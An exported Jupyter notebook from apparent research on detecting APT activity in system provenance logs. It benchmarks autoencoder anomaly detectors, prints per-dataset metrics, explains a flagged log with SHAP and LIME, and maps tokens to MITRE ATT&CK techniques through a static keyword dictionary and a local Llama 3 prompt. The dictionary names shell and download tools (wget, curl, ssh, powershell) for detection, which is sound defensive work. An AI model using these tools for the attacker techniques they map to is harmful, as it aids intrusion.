    elif model_name == 'LSTMAE':
        model = LSTMAE(INPUT_DIM).to(DEVICE)

    # 2. DYNAMIC WEIGHT FINDER (Fixes the "Weights Not Found" error)
    mod_name_clean = model_name.replace(' ', '')
    
    # Automatically cleans the context string using the current EMBEDDING_NAME
    base_context = context.replace(f'_{EMBEDDING_NAME}', '') 
    
    matched_weight_file = None
    if os.path.exists(MODEL_SAVE_DIR):
        for f in os.listdir(MODEL_SAVE_DIR):
            # Check if all identifying parts are in the filename, regardless of exact order
            if performer in f and mod_name_clean in f and base_context in f and f.endswith('.pth'):
                matched_weight_file = f
                break
    
    if not matched_weight_file:
        return None # Skip if weights don't exist
        
    weight_path = os.path.join(MODEL_SAVE_DIR, matched_weight_file)
    model.load_state_dict(torch.load(weight_path, map_location=DEVICE))
    model.eval()

    tensor_test = torch.FloatTensor(X_test).to(DEVICE)

    start_time = time.time()

    # 3. Do a single Forward Pass (Inference)
    with torch.no_grad():
        if model_name == 'Deep SVDD':
            z = model(tensor_test)
            errors = torch.sum((z - center) ** 2, dim=1).cpu().numpy()
        elif model_name in ['VAE', 'Beta-VAE']:
            recon, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'GMVAE':
            recon, _, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'Robust':
            recon = model(tensor_test)
            errors = torch.mean(torch.abs(tensor_test - recon), dim=1).cpu().numpy()
        else:
            recon = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()

    # 4. Calculate All Metrics
    try:
        auc = roc_auc_score(y_test, errors)
        pr_auc = average_precision_score(y_test, errors)
        
        # Max F1 Thresholding
        precisions, recalls, thresholds = precision_recall_curve(y_test, errors)
        f1_scores = np.divide(2 * precisions * recalls, precisions + recalls, out=np.zeros_like(precisions), where=(precisions + recalls) != 0)
        best_idx = np.argmax(f1_scores)
        best_threshold = thresholds[best_idx] if best_idx < len(thresholds) else thresholds[-1]
        
        y_pred = (errors >= best_threshold).astype(int)
        
        precision = precision_score(y_test, y_pred, zero_division=0)
        recall = recall_score(y_test, y_pred, zero_division=0)
        f1 = f1_score(y_test, y_pred, zero_division=0)
        accuracy = accuracy_score(y_test, y_pred)
        
    except Exception as e:
        auc, pr_auc, precision, recall, f1, accuracy = 0.0, 0.0, 0.0, 0.0, 0.0, 0.0

    eval_time = time.time() - start_time

    return {
        "Performer": performer,
        "Context": context,
        "Model": model_name,
        "AUC-ROC": round(auc, 4),
        "PR-AUC": round(pr_auc, 4),
        "Precision": round(precision, 4),
        "Recall": round(recall, 4),
        "F1-Score": round(f1, 4),
        "Accuracy": round(accuracy, 4),
        "Inference Time(s)": round(eval_time, 4)
    }

# ==========================================
# 4. EXECUTION
# ==========================================
all_results = []
models_to_run = [
    'Baseline', 'Sparse', 'Deep SVDD', 'DAE', 'VAE', 'Beta-VAE', 
    'GMVAE', 'Attention AE', 'LSTMAE', 'Robust', 'Contractive'
]

if not os.path.exists(BASE_DIR):
    print(f"[!] Error: {BASE_DIR} missing.")
else:
    performers = [p for p in os.listdir(BASE_DIR) if os.path.isdir(os.path.join(BASE_DIR, p)) and not p.startswith('.')]
    
    for performer in performers:
        test_dir = os.path.join(BASE_DIR, performer, "test")
        if not os.path.exists(test_dir): continue
            
        files = [f for f in os.listdir(test_dir) if f.endswith('.pkl')]
        
        for file in files:
            context = file.replace('.pkl', '')
            print(f"\nEvaluating: {performer.upper()} - {context}")
            
            with open(os.path.join(test_dir, file), 'rb') as f:
                pkg = pickle.load(f)
                X_test, y_test = pkg['X'], pkg['y']

            for m_name in models_to_run:
                res = evaluate_model(m_name, X_test, y_test, performer, context)
                if res is None:
                    print(f"    [!] Skipping {m_name}... Weights not found in {MODEL_SAVE_DIR}.")
                else:
                    all_results.append(res)
                    print(f"    -> {m_name} Done! F1: {res['F1-Score']} | PR-AUC: {res['PR-AUC']}")

if all_results:
    df_res = pd.DataFrame(all_results)
    df_res.to_csv(RESULTS_FILE, index=False)
    print("\n" + "="*60)
    print(f"SUCCESS! Extracted all new metrics without retraining.")
    print(f"Saved to {RESULTS_FILE}")
    print("="*60)

Running INFERENCE ONLY for MULTILINGUAL_E5 on Device: CUDA
------------------------------------------------------------

Evaluating: 5DIR - ProcessAll
    -> Baseline Done! F1: 0.1667 | PR-AUC: 0.0708
    -> Sparse Done! F1: 0.2727 | PR-AUC: 0.0751
    -> Deep SVDD Done! F1: 0.2 | PR-AUC: 0.0829
    -> DAE Done! F1: 0.2609 | PR-AUC: 0.0741
    -> VAE Done! F1: 0.24 | PR-AUC: 0.0683
    -> Beta-VAE Done! F1: 0.25 | PR-AUC: 0.0674
    -> GMVAE Done! F1: 0.2727 | PR-AUC: 0.0767
    -> Attention AE Done! F1: 0.1667 | PR-AUC: 0.0682
    -> LSTMAE Done! F1: 0.1667 | PR-AUC: 0.0683
    -> Robust Done! F1: 0.1667 | PR-AUC: 0.0737
    -> Contractive Done! F1: 0.2609 | PR-AUC: 0.0678

Evaluating: 5DIR - ProcessEvent
    -> Baseline Done! F1: 0.0659 | PR-AUC: 0.0216
    -> Sparse Done! F1: 0.1053 | PR-AUC: 0.0279
    -> Deep SVDD Done! F1: 0.0621 | PR-AUC: 0.0235
    -> DAE Done! F1: 0.1053 | PR-AUC: 0.0309
    -> VAE Done! F1: 0.1053 | PR-AUC: 0.0287
    -> Beta-VAE Done! F1: 0.1 | PR-AUC: 0.026

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\

    -> DAE Done! F1: 0.0 | PR-AUC: 0.0
    -> VAE Done! F1: 0.0 | PR-AUC: 0.0
    -> Beta-VAE Done! F1: 0.0 | PR-AUC: 0.0
    -> GMVAE Done! F1: 0.0 | PR-AUC: 0.0
    -> Attention AE Done! F1: 0.0 | PR-AUC: 0.0


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\

    -> LSTMAE Done! F1: 0.0 | PR-AUC: 0.0
    -> Robust Done! F1: 0.0 | PR-AUC: 0.0
    -> Contractive Done! F1: 0.0 | PR-AUC: 0.0

Evaluating: THEIA - ProcessAll
    -> Baseline Done! F1: 0.8155 | PR-AUC: 0.8527
    -> Sparse Done! F1: 0.0509 | PR-AUC: 0.018
    -> Deep SVDD Done! F1: 0.6957 | PR-AUC: 0.4914
    -> DAE Done! F1: 0.4747 | PR-AUC: 0.3124
    -> VAE Done! F1: 0.0467 | PR-AUC: 0.0165
    -> Beta-VAE Done! F1: 0.046 | PR-AUC: 0.0167
    -> GMVAE Done! F1: 0.0509 | PR-AUC: 0.0179
    -> Attention AE Done! F1: 0.0515 | PR-AUC: 0.0181
    -> LSTMAE Done! F1: 0.7024 | PR-AUC: 0.7498
    -> Robust Done! F1: 0.7328 | PR-AUC: 0.8091
    -> Contractive Done! F1: 0.0506 | PR-AUC: 0.0179

Evaluating: THEIA - ProcessEvent
    -> Baseline Done! F1: 0.728 | PR-AUC: 0.6392
    -> Sparse Done! F1: 0.0056 | PR-AUC: 0.0024
    -> Deep SVDD Done! F1: 0.0037 | PR-AUC: 0.0018
    -> DAE Done! F1: 0.0337 | PR-AUC: 0.011
    -> VAE Done! F1: 0.0049 | PR-AUC: 0.0018
    -> Beta-VAE Done! F1: 0.0

#### XAI integration and MITRE ATT&CK mapping

In [3]:
import os
import torch
import numpy as np
import shap
import pandas as pd
from transformers import AutoTokenizer, AutoModel
import torch.nn as nn
import pickle
import requests
from lime.lime_text import LimeTextExplainer

# ==========================================
# 1. SETUP & CONFIGURATION
# ==========================================
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# [E5-LARGE UPDATE] 
EMBEDDER_NAME = "intfloat/multilingual-e5-large" 
INPUT_DIM = 1024  # Critical: e5-large uses 1024 dimensions!

TARGET_PERFORMER = 'theia'       
TARGET_CONTEXT = 'ProcessAll'    
TARGET_AE_MODEL = 'Baseline'      

USE_LLM_MAPPING = True

# ==========================================
# 2. EXTENDED MITRE ATT&CK MAPPING
# ==========================================
MITRE_MAPPING = {
    "/bin/bash": "T1059.004 - Command and Scripting Interpreter: Unix Shell",
    "powershell": "T1059.001 - Command and Scripting Interpreter: PowerShell",
    "cmd.exe": "T1059.003 - Command and Scripting Interpreter: Windows Command Shell",
    "whoami": "T1033 - System Owner/User Discovery",
    "chmod": "T1222.002 - File and Directory Permissions Modification: Linux",
    "/usr/bin/wget": "T1105 - Ingress Tool Transfer",
    "curl": "T1105 - Ingress Tool Transfer",
    "ssh": "T1021.004 - Remote Services: SSH",
    "event fork": "T1055 - Process Injection / Execution",
    "event execve": "T1059 - Command and Scripting Interpreter",
    "event clone": "T1055 - Process Injection / Execution",
    "event ptrace": "T1055 - Process Injection",
    "network 10.": "T1090 - Proxy / Internal Network Communication",
    "network 80": "T1071.001 - Application Layer Protocol: Web Protocols",
    "executable": "T1059 - Command and Scripting Interpreter / Execution",
    "nginx": "T1505.003 - Server Software Component: Web Shell"
}

# ==========================================
# 3. AUTOENCODER DEFINITION
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 256), nn.ReLU()
        )
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
    def forward(self, x):
        return self.decoder(self.encoder(x))

# ==========================================
# 4. LOCAL LLaMA 3 OLLAMA API FUNCTION
# ==========================================
def get_mitre_from_llm(raw_log, suspicious_word):
    prompt = f"""You are an expert cybersecurity threat hunter. 
An anomaly detection system flagged this system log as a potential APT attack: '{raw_log}'
A mathematical explainer identified the token '{suspicious_word}' as the primary driver of this anomaly.
Based on this token and the context of the log, identify the single most likely MITRE ATT&CK Tactic and Technique ID. 
Format your response exactly like this: [Technique ID] - [Technique Name]. Do not include any other text."""
    
    try:
        url = "http://localhost:11434/api/generate"
        payload = {"model": "llama3", "prompt": prompt, "stream": False, "temperature": 0.1}
        response = requests.post(url, json=payload, timeout=10)
        if response.status_code == 200:
            return response.json().get("response", "").strip()
        return f"[Error] Local API returned status {response.status_code}"
    except Exception as e:
        return f"[Error] Exception occurred: {str(e)}"

# Load the raw sentences
print("Loading all_data_with_sentences.pkl...")
try:
    with open("all_data_with_sentences.pkl", "rb") as f:
        all_data = pickle.load(f)
    print("✓ Data loaded successfully!")
except FileNotFoundError:
    print("[!] all_data_with_sentences.pkl not found.")

# ==========================================
# 5. THE END-TO-END PIPELINE WRAPPER 
# ==========================================
class APT_Explainer:
    def __init__(self, embedder_name, ae_model, device):
        self.device = device
        print(f"Loading {embedder_name} on {self.device.upper()}...")
        
        # E5 is standard architecture, no custom code needed
        self.tokenizer = AutoTokenizer.from_pretrained(embedder_name)
        self.embedder = AutoModel.from_pretrained(embedder_name).to(self.device)
        self.embedder.eval()
        self.ae_model = ae_model.to(self.device)
        self.ae_model.eval()

    def predict_anomaly_score(self, text_list):
        if isinstance(text_list, np.ndarray):
            text_list = text_list.tolist()
            
        # Clean inputs
        text_list = [str(t) if len(str(t).strip()) > 0 else "[PAD]" for t in text_list]

        # Note: E5 technically recommends adding "query: " before inputs, but since your Autoencoder 
        # was likely trained on the raw text directly, we will process the raw text to match your training state.

        batch_size = 4 
        all_errors = []
        
        # Set autocast device dynamically based on CPU vs CUDA
        ac_device = 'cuda' if 'cuda' in self.device else 'cpu'
        
        for i in range(0, len(text_list), batch_size):
            batch_texts = text_list[i:i+batch_size]
            
            inputs = self.tokenizer(
                batch_texts, 
                padding=True, 
                truncation=True, 
                max_length=128, 
                return_tensors="pt"
            ).to(self.device)

            with torch.amp.autocast(ac_device):
                with torch.inference_mode():
                    outputs = self.embedder(**inputs)
                    
                    # [E5 UPDATE]: Attention-weighted Mean Pooling
                    # This is the standard pooling method for E5 to handle paddings correctly
                    token_embeddings = outputs.last_hidden_state
                    attention_mask = inputs['attention_mask'].unsqueeze(-1).float()
                    
                    sum_embeddings = torch.sum(token_embeddings * attention_mask, dim=1)
                    sum_mask = torch.clamp(attention_mask.sum(dim=1), min=1e-9)
                    embeddings = sum_embeddings / sum_mask
                    
                    reconstructed = self.ae_model(embeddings)
                    errors = torch.mean((embeddings - reconstructed) ** 2, dim=1)
                    all_errors.extend(errors.cpu().numpy())
                
        return np.array(all_errors)

# ==========================================
# 6. INITIALIZE MODELS & LOAD WEIGHTS
# ==========================================
print("-" * 60)
print("INITIALIZING FORENSICS PIPELINE (SHAP + LIME + LLaMA 3)")
print("-" * 60)

ae_model = VanillaAE(INPUT_DIM)
# Ensure this folder name matches your E5 training output!
weight_filename = f"{TARGET_PERFORMER}_{TARGET_CONTEXT}_{TARGET_AE_MODEL}.pth"
weight_path = os.path.join("saved_weights_multilingual_e5", weight_filename)

if not os.path.exists(weight_path):
    print(f"[!] CRITICAL ERROR: Could not find weights at {weight_path}")
else:
    ae_model.load_state_dict(torch.load(weight_path, map_location=DEVICE))
    print(f"✓ Loaded weights: {weight_path}")

    pipeline = APT_Explainer(EMBEDDER_NAME, ae_model, DEVICE)
    shap_explainer = shap.Explainer(pipeline.predict_anomaly_score, pipeline.tokenizer)
    lime_explainer = LimeTextExplainer(class_names=['Normal', 'Anomaly'])

    def lime_predict_wrapper(text_list):
        errors = pipeline.predict_anomaly_score(text_list)
        probs = 1 / (1 + np.exp(-errors))
        return np.vstack((1 - probs, probs)).T

    # ==========================================
    # 7. EXPLAIN THE ANOMALY
    # ==========================================
    try:
        df = all_data[TARGET_PERFORMER][TARGET_CONTEXT]
        anomalies_df = df[df['label'] == 1]
        
        if anomalies_df.empty:
            print(f"[!] No anomalies found.")
        else:
            raw_apt_log = [anomalies_df['sentence'].iloc[0]]
            print(f"\nAnalyzing True Positive Anomaly:\n>>> '{raw_apt_log[0]}'")
            
            # ==========================================
            # 8. RUN LIME
            # ==========================================
            print("\n" + "="*80)
            print("LIME EXPLAINABILITY & LLaMA 3 MITRE MAPPING")
            print("="*80)
            
            print("Calculating LIME perturbations...")
            for text in raw_apt_log:
                lime_exp = lime_explainer.explain_instance(text, lime_predict_wrapper, num_features=5)
                
                print("Top LIME Anomaly Drivers:")
                for word, weight in lime_exp.as_list():
                    clean_word = word.strip().lower()
                    if weight > 0 and len(clean_word) > 1:
                        print(f" -> '{clean_word}' (LIME Weight: +{weight:.4f})")
                        mapped = False
                        if USE_LLM_MAPPING:
                            mitre_technique = get_mitre_from_llm(text, clean_word)
                            if "[Error]" not in mitre_technique:
                                print(f"    [!] LLaMA-3 MITRE MAPPING: {mitre_technique}")
                                mapped = True

                        if not mapped:
                            for key, mitre_technique in MITRE_MAPPING.items():
                                if key in clean_word or clean_word in key:
                                    print(f"    [!] STATIC MAPPING: {mitre_technique}")
                                    mapped = True
                        if not mapped:
                            print("    [i] No MITRE mapping found.")

            # ==========================================
            # 9. RUN SHAP 
            # ==========================================
            print("\nCalculating SHAP values (Optimized speed...)")
            shap_values = shap_explainer(raw_apt_log, max_evals=100)
            
            print("\n" + "="*80)
            print("SHAP EXPLAINABILITY & LLaMA 3 MITRE MAPPING")
            print("="*80)

            for i, text in enumerate(raw_apt_log):
                words = shap_values.data[i]
                impact_scores = shap_values.values[i]
                word_impacts = sorted(zip(words, impact_scores), key=lambda x: x[1], reverse=True)
                
                print("Top SHAP Anomaly Drivers:")
                for word, score in word_impacts[:5]: 
                    clean_word = word.strip().lower()
                    if score > 0 and len(clean_word) > 1:
                        print(f" -> '{clean_word}' (Anomaly Impact: +{score:.4f})")
                        mapped = False
                        if USE_LLM_MAPPING:
                            mitre_technique = get_mitre_from_llm(raw_apt_log[0], clean_word)
                            if "[Error]" not in mitre_technique:
                                print(f"    [!] LLaMA-3 MITRE MAPPING: {mitre_technique}")
                                mapped = True

                        if not mapped:
                            for key, mitre_technique in MITRE_MAPPING.items():
                                if key in clean_word or clean_word in key:
                                    print(f"    [!] STATIC MAPPING: {mitre_technique}")
                                    mapped = True
                        if not mapped:
                            print("    [i] No MITRE mapping found.")

    except NameError:
        print("[!] The 'all_data' variable is not loaded.")

Loading all_data_with_sentences.pkl...
✓ Data loaded successfully!
------------------------------------------------------------
INITIALIZING FORENSICS PIPELINE (SHAP + LIME + LLaMA 3)
------------------------------------------------------------
✓ Loaded weights: saved_weights_multilingual_e5\theia_ProcessAll_Baseline.pth
Loading intfloat/multilingual-e5-large on CUDA...


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\huggingface_hub\file_download.py:129: UserWarning: `huggingface_hub` cache-system uses symlinks by default to efficiently store duplicated files but your machine does not support them in C:\Users\MOHAMMEDWALEEDKHAN\.cache\huggingface\hub\models--intfloat--multilingual-e5-large. Caching files will still work but in a degraded version that might require more space on your disk. This warning can be disabled by setting the `HF_HUB_DISABLE_SYMLINKS_WARNING` environment variable. For more details, see https://huggingface.co/docs/huggingface_hub/how-to-cache#limitations.
To support symlinks on Windows, you either need to activate Developer Mode or to run Python as an administrator. In order to activate developer mode, see this article: https://docs.microsoft.com/en-us/windows/apps/get-started/enable-your-device-for-development
  warnings.warn(message)
Loading weights: 100%|██████████| 391/391 [00:00<00:00, 9


Analyzing True Positive Anomaly:
>>> 'Process has event clone and event mmap and event mprotect and event open and event read and event recvfrom and executable /home/admin/profile and executable /home/admin/clean.1 and executable N/A.1 and network 161.116.88.72 and network 80'

LIME EXPLAINABILITY & LLaMA 3 MITRE MAPPING
Calculating LIME perturbations...
Top LIME Anomaly Drivers:

Calculating SHAP values (Optimized speed...)

SHAP EXPLAINABILITY & LLaMA 3 MITRE MAPPING
Top SHAP Anomaly Drivers:
 -> 'and' (Anomaly Impact: +0.0006)
    [i] No MITRE mapping found.
 -> 'and' (Anomaly Impact: +0.0002)
    [i] No MITRE mapping found.
 -> '116' (Anomaly Impact: +0.0000)
    [i] No MITRE mapping found.


## Group B: The "Decoder" models (LLM-based)

### 1. `nvidia/NV-Embed-v2`

#### Embedding generation

In [7]:
import pandas as pd
import numpy as np
import torch
import torch.nn.functional as F
import pickle
import os
from transformers import AutoTokenizer, AutoModel, PreTrainedModel, BitsAndBytesConfig

# ==========================================
# 1. CONFIGURATION
# ==========================================
INPUT_FILE = 'all_data_with_sentences.pkl'
MODEL_NAME = 'nvidia/NV-Embed-v2'

# 4-bit quantization shrinks the model to ~4.5GB.
# A batch size of 8 is highly efficient and safe for 16GB VRAM.
BATCH_SIZE = 8 

# [SPEED & OOM FIX] Dropped from 2048 to 512. 
# Prevents quadratic memory spikes and instantly doubles processing speed.
MAX_SEQ_LENGTH = 512 

# ==========================================
# 2. LOAD RESOURCES
# ==========================================
device = 'cuda' if torch.cuda.is_available() else 'cpu'
print(f"Using device: {device.upper()}")

# Monkey patch to prevent the 'all_tied_weights_keys' attribute error
if not hasattr(PreTrainedModel, "all_tied_weights_keys"):
    PreTrainedModel.all_tied_weights_keys = property(lambda self: [])

print(f"Loading model: {MODEL_NAME} (4-Bit Quantized + Flash Attention)...")

# Setup 4-bit Quantization Configuration
quant_config = BitsAndBytesConfig(
    load_in_4bit=True,
    bnb_4bit_compute_dtype=torch.float16,
    bnb_4bit_use_double_quant=True,
    bnb_4bit_quant_type="nf4"
)

# Load Model with Flash Attention 2
model = AutoModel.from_pretrained(
    MODEL_NAME, 
    trust_remote_code=True, 
    quantization_config=quant_config,
    device_map=device
)
model.eval()

# Load Tokenizer 
tokenizer = AutoTokenizer.from_pretrained(MODEL_NAME, trust_remote_code=True)

if os.path.exists(INPUT_FILE):
    print(f"Loading data from {INPUT_FILE}...")
    with open(INPUT_FILE, 'rb') as f:
        all_data = pickle.load(f)
else:
    raise FileNotFoundError(f"Missing {INPUT_FILE}. Run the sentence generation step first.")

# ==========================================
# 3. HELPER: NV-EMBED ENCODING
# ==========================================
def get_nvembed_embeddings(text_list, model, batch_size=1):
    all_embeddings = []
    total = len(text_list)
    
    for i in range(0, total, batch_size):
        raw_batch = text_list[i : i + batch_size]
        
        with torch.no_grad():
            # Use native encode method to avoid dictionary pooling errors
            embeddings = model.encode(
                raw_batch, 
                instruction="", 
                max_length=MAX_SEQ_LENGTH
            )
            
            # Normalize for Cosine Similarity
            embeddings = F.normalize(embeddings, p=2, dim=1)
            
            # Move to CPU immediately to free up GPU memory
            all_embeddings.extend(embeddings.cpu().numpy())
            
        print(f"    Processed {min(i + batch_size, total)}/{total}...", end="\r")
            
    print("") 
    return all_embeddings

# ==========================================
# 4. GENERATE EMBEDDINGS
# ==========================================
print("\n" + "="*80)
print(f"GENERATING EMBEDDINGS ({MODEL_NAME})")
print("="*80)

for performer in all_data:
    print(f"\n--- Processing Performer: {performer.upper()} ---")
    
    for context in all_data[performer]:
        df = all_data[performer][context]
        
        if 'sentence' not in df.columns:
            print(f"  [!] Skipping {context} (No sentences found)")
            continue
            
        print(f"  -> {context} ({len(df)} rows)...")
        
        try:
            # [SPEED FIX] Smart Batching: Sort sentences by length to eliminate padding math
            df['seq_len'] = df['sentence'].astype(str).apply(len)
            df = df.sort_values('seq_len').reset_index(drop=True)
            
            sentences = df['sentence'].tolist()
            
            # Generate Embeddings
            embeddings = get_nvembed_embeddings(sentences, model, BATCH_SIZE)
            
            if len(embeddings) != len(df):
                print(f"  [!] Mismatch: {len(embeddings)} vs {len(df)}")
                continue

            # Drop temporary column and append embeddings
            df = df.drop(columns=['seq_len'])
            df['embedding'] = list(embeddings)
            all_data[performer][context] = df
            print(f"     ✓ Done.")
            
        except Exception as e:
            print(f"\n  [!] Error processing {context}: {e}")
            
        finally:
            # Force clear the VRAM cache after every single chunk to prevent memory leaks
            torch.cuda.empty_cache()

# ==========================================
# 5. SAVE DATA (CHUNKED)
# ==========================================
SAVE_DIR = "processed_embeddings_nvembed_v2"
os.makedirs(SAVE_DIR, exist_ok=True)

print(f"\nAttempting to save NV-Embed chunks to: {os.path.abspath(SAVE_DIR)}")

if 'all_data' in locals() and all_data:
    for performer in all_data:
        for context in all_data[performer]:
            try:
                df = all_data[performer][context]
                filename = f"{performer}_{context}_nvembed_v2.pkl"
                filepath = os.path.join(SAVE_DIR, filename)
                
                print(f"Saving {filename}...", end=" ")
                with open(filepath, 'wb') as f:
                    pickle.dump(df, f)
                print("Success.")
                
            except Exception as e:
                print(f"Failed to save {filename}: {e}")
    
    print(f"\n✓ All NV-Embed data saved to '{SAVE_DIR}'")
    
else:
    print("CRITICAL: The 'all_data' variable is gone from memory.")

Using device: CUDA
Loading model: nvidia/NV-Embed-v2 (4-Bit Quantized + Flash Attention)...


Loading checkpoint shards: 100%|██████████| 4/4 [00:14<00:00,  3.55s/it]


Loading data from all_data_with_sentences.pkl...

GENERATING EMBEDDINGS (nvidia/NV-Embed-v2)

--- Processing Performer: 5DIR ---
  -> ProcessEvent (11151 rows)...


C:\Users\MOHAMMEDWALEEDKHAN\.cache\huggingface\modules\transformers_modules\nvidia\NV-Embed-v2\3fa59658547db50a1e8e3346cf057fd0c77ed6ef\modeling_nvembed.py:347: UserWarning: To copy construct from a tensor, it is recommended to use sourceTensor.detach().clone() or sourceTensor.detach().clone().requires_grad_(True), rather than torch.tensor(sourceTensor).
  'input_ids': torch.tensor(batch_dict.get('input_ids').to(batch_dict.get('input_ids')).long()),
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\contextlib.py:105: FutureWarning: `torch.backends.cuda.sdp_kernel()` is deprecated. In the future, this context manager will be removed. Please see `torch.nn.attention.sdpa_kernel()` for the new context manager, with updated signature.
  self.gen = func(*args, **kwds)


    Processed 11151/11151...
     ✓ Done.
  -> ProcessExec (11077 rows)...


C:\Users\MOHAMMEDWALEEDKHAN\.cache\huggingface\modules\transformers_modules\nvidia\NV-Embed-v2\3fa59658547db50a1e8e3346cf057fd0c77ed6ef\modeling_nvembed.py:347: UserWarning: To copy construct from a tensor, it is recommended to use sourceTensor.detach().clone() or sourceTensor.detach().clone().requires_grad_(True), rather than torch.tensor(sourceTensor).
  'input_ids': torch.tensor(batch_dict.get('input_ids').to(batch_dict.get('input_ids')).long()),
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\contextlib.py:105: FutureWarning: `torch.backends.cuda.sdp_kernel()` is deprecated. In the future, this context manager will be removed. Please see `torch.nn.attention.sdpa_kernel()` for the new context manager, with updated signature.
  self.gen = func(*args, **kwds)


    Processed 11077/11077...
     ✓ Done.
  -> ProcessParent (10992 rows)...


C:\Users\MOHAMMEDWALEEDKHAN\.cache\huggingface\modules\transformers_modules\nvidia\NV-Embed-v2\3fa59658547db50a1e8e3346cf057fd0c77ed6ef\modeling_nvembed.py:347: UserWarning: To copy construct from a tensor, it is recommended to use sourceTensor.detach().clone() or sourceTensor.detach().clone().requires_grad_(True), rather than torch.tensor(sourceTensor).
  'input_ids': torch.tensor(batch_dict.get('input_ids').to(batch_dict.get('input_ids')).long()),
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\contextlib.py:105: FutureWarning: `torch.backends.cuda.sdp_kernel()` is deprecated. In the future, this context manager will be removed. Please see `torch.nn.attention.sdpa_kernel()` for the new context manager, with updated signature.
  self.gen = func(*args, **kwds)


    Processed 10992/10992...
     ✓ Done.
  -> ProcessNetflow (329 rows)...


C:\Users\MOHAMMEDWALEEDKHAN\.cache\huggingface\modules\transformers_modules\nvidia\NV-Embed-v2\3fa59658547db50a1e8e3346cf057fd0c77ed6ef\modeling_nvembed.py:347: UserWarning: To copy construct from a tensor, it is recommended to use sourceTensor.detach().clone() or sourceTensor.detach().clone().requires_grad_(True), rather than torch.tensor(sourceTensor).
  'input_ids': torch.tensor(batch_dict.get('input_ids').to(batch_dict.get('input_ids')).long()),
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\contextlib.py:105: FutureWarning: `torch.backends.cuda.sdp_kernel()` is deprecated. In the future, this context manager will be removed. Please see `torch.nn.attention.sdpa_kernel()` for the new context manager, with updated signature.
  self.gen = func(*args, **kwds)


    Processed 329/329...
     ✓ Done.
  -> ProcessAll (11151 rows)...


C:\Users\MOHAMMEDWALEEDKHAN\.cache\huggingface\modules\transformers_modules\nvidia\NV-Embed-v2\3fa59658547db50a1e8e3346cf057fd0c77ed6ef\modeling_nvembed.py:347: UserWarning: To copy construct from a tensor, it is recommended to use sourceTensor.detach().clone() or sourceTensor.detach().clone().requires_grad_(True), rather than torch.tensor(sourceTensor).
  'input_ids': torch.tensor(batch_dict.get('input_ids').to(batch_dict.get('input_ids')).long()),
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\contextlib.py:105: FutureWarning: `torch.backends.cuda.sdp_kernel()` is deprecated. In the future, this context manager will be removed. Please see `torch.nn.attention.sdpa_kernel()` for the new context manager, with updated signature.
  self.gen = func(*args, **kwds)


    Processed 11151/11151...
     ✓ Done.

--- Processing Performer: CADETS ---
  -> ProcessEvent (224624 rows)...


C:\Users\MOHAMMEDWALEEDKHAN\.cache\huggingface\modules\transformers_modules\nvidia\NV-Embed-v2\3fa59658547db50a1e8e3346cf057fd0c77ed6ef\modeling_nvembed.py:347: UserWarning: To copy construct from a tensor, it is recommended to use sourceTensor.detach().clone() or sourceTensor.detach().clone().requires_grad_(True), rather than torch.tensor(sourceTensor).
  'input_ids': torch.tensor(batch_dict.get('input_ids').to(batch_dict.get('input_ids')).long()),
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\contextlib.py:105: FutureWarning: `torch.backends.cuda.sdp_kernel()` is deprecated. In the future, this context manager will be removed. Please see `torch.nn.attention.sdpa_kernel()` for the new context manager, with updated signature.
  self.gen = func(*args, **kwds)


    Processed 224624/224624...
     ✓ Done.
  -> ProcessExec (224146 rows)...


